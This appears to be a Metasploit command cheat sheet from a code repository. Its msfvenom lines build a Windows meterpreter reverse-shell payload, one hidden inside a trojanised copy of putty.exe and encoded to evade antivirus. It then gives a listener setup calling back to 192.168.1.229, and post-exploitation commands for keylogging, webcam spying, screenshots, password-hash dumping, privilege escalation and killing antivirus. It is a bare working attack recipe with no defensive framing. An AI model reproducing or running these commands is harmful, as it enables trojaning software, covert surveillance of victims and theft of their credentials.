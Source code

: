 # Metasploit Commands

## msfvenom
### x86

    msfvenom -a x86 --platform Windows -p windows/meterpreter_reverse_tcp lhost=192.168.1.229 -k -f exe -x putty.exe -e x86/shikata_ga_nai -i 10 -o putty2.exe

### x64

    msfvenom -a x64 --platform windows -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.229 -f exe -o putty.exe

## msfconsole

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    show options
    set LHOST 192.168.1.229
    run

## meterpreter

    sysinfo
    ls,cd,pwd,ps,rm,download,upload,
    getuid
    getsid
    netstat
    ifconfig,ipconfig
    shell
    keyscan_start
    keyscan_dump
    keyscan_stop
    webcam_list
    webcam_stream 1
    webcam_snap
    screenshot
    hashdump
    getprivs
    getsystem
    hashdump
    run killav

